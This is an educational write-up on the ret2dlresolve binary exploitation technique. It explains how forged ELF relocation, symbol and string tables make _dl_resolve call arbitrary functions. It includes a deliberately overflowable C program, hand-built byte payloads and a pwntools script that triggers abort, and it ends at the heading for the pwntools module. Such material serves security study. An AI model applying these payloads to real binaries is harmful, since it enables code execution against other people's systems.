 # Introduction
This is a highly sophisticated attack which leverages the way dynamic library functions are resolved at runtime in order to resolve an arbitrary procedure and invoke it, bypassing ASLR and requiring no leaks.

To understand the following content, you must know a lot about [dynamic linking](../../../Reverse%20Engineering/Binary%20Formats/ELF/Dynamic%20Linking.md) with ELF files.

# Theory
It is possible to use `_dl_resolve` to call any external function by creating a fake relocation table, symbol table, string table, and GOT. `_dl_resolve` performs no upper boundary checks on the relocation argument, which means that we can make it arbitrarily large and thus point it to our fake relocation table. From there, we can do the same with the rest of the offsets. It does, however, check a few other things which we will need to work around.

Because of the checks that `_dl_resolve` performs, the `r_info` must be divisible by 0x18. The distance between the real symbol table and our fake one must be divisible by 0x18 and fit in 32 bits after this division. This practically prevents us from using the stack on 64-bit systems to store our fake tables and we will need to utilise the `.bss` section, which is closer to the real symbol table in the executable. Additionally, `r_info` must end in 0x7.

For the sake of simplicity, all of the fake tables will only contain one entry. Once we have the fake symbol table set up, we need to set `st_other` to 0 and `st_name` to the distance between the real string table and our fake one, which can in this case be a single null-terminated string. Next, `r_info` must be populated with `(( RealToFakeSymbolTableOffset / 0x18 ) << 32 ) | 0x7`, where `RealToFakeSymbolTableOffset` is the 0x18 aligned distance between our fake and real symbol tables. Do not worry about all the bit-wise operations - these are taken care of by a few macros in `_dl_resolve`. `r_offset` on the other hand, must contain the distance between our fake global offset table and the ELF header.

The relocation argument should store the offset between the start of the real relocation table and the beginning of the fake relocation table divided by the size of one relocation entry and should be put at the top of the stack. Consequently, if gaining code execution through a stack buffer overflow, the relocation argument should follow the malicious return address.

# Manual exploitation
```cpp
#include <stdio.h>
#include <stdlib.h>

char message[128];

void SendMessage()
{
	char sender[20];
	
	printf("Enter the message: \n");
	fgets(message, 128, stdin);
	
	printf("Enter the sender name: \n");
	fgets(sender, 0x40, stdin);
}

int main()
{
	SendMessage();		
	printf("Message sent!");
	return 0;
	
}
```

Manually performing this exploit is extremely cumbersome, so in addition to the manual exploitation, I will also show you a neat module that pwntools contains for this exact purpose. Anyway, the fake tables should be set in the following way:

Relocation argument:
- `reloc_arg = (FakeRelocationTable - RealRelocationTable) / sizeof(Relocation Entry)`

 - must be divisible by the size of the relocation entry:
	 - `Elf32_Rel` : 8 bytes
	 - `Elf32_Rela`: 12 bytes
	 - `Elf64_Rel`: 16 bytes
	 - `Elf64_Rela`: 24 bytes

Fake relocation table:
- `r_offset = FakeGOT - ElfHeader`
- `[+0x8] r_info = (( (FakeSymbolTable - RealSymbolTable) / 0x18 ) << 32 ) | 0x7`
	- the distance between the fake and the real symbol table must be divisible by 0x18, so padding might be required
- `[+0x10] r_addend = 0 (doesn't matter)`

Fake symbol table:
- `[+0x18] st_name = FakeStringTable - RealStringTable`
- `[+0x20] st_info = 0 (doesn't matter)`
- `[+0x21] st_other = 0`

Fake string table:
- `[+0x22] function name = system\x00 (or any other function)`

The above offsets are from the beginning of the fake relocation table and are suited to x64. You will have to change them for x86 based on the size of the struct fields.

For any arguments you want to pass to the function, you will either need to use shellcode in your initial payload buffer or utilise ROP.

Consequently, the payload for the `message` is
`"\x00\x00\x00\x00\x00\x00\x00\x00\x99\x40\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x88\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x42\x42\x42\x42\x42\x42\x42\x42\xda\x3b\x00\x00\x00\x00\x00\x00\x00\x00abort\x00"`

The actual buffer that will be overflowed is the `sender` buffer the payload for it looks like this:
`"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x30\x50\x55\x55\x55\x55\x00\x00\x6d\x02\x00\x00\x00\x00\x00\x00"`
The last bytes are the value of the relocation argument and the ones before are the address of PLT0.

Indeed, running this exploit results in the programme's abortion through the `abort` function (you can check by the exit code).
```python
from pwn import *

program = process("./dl_resolve")

print(program.recvlineS())
program.sendline(b"\x00\x00\x00\x00\x00\x00\x00\x00\x99\x40\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x88\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x42\x42\x42\x42\x42\x42\x42\x42\xda\x3b\x00\x00\x00\x00\x00\x00\x00\x00abort\x00")

print(program.recvlineS())
program.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x30\x50\x55\x55\x55\x55\x00\x00\x6d\x02\x00\x00\x00\x00\x00\x00")

program.interactive()
```

![](Resources/Images/RDLR_manual.png)

The `abort` procedure takes no arguments which made manual exploitation bearable, however, when you want to invoke a function with parameters, such as `system`, you will need to either execute additional shellcode before jumping to PLT0, or build a ROP chain. If you value your life, never exploit this manually.

## Exploiting with pwntools
`pwntools` has an awesome module for performing this exploit:

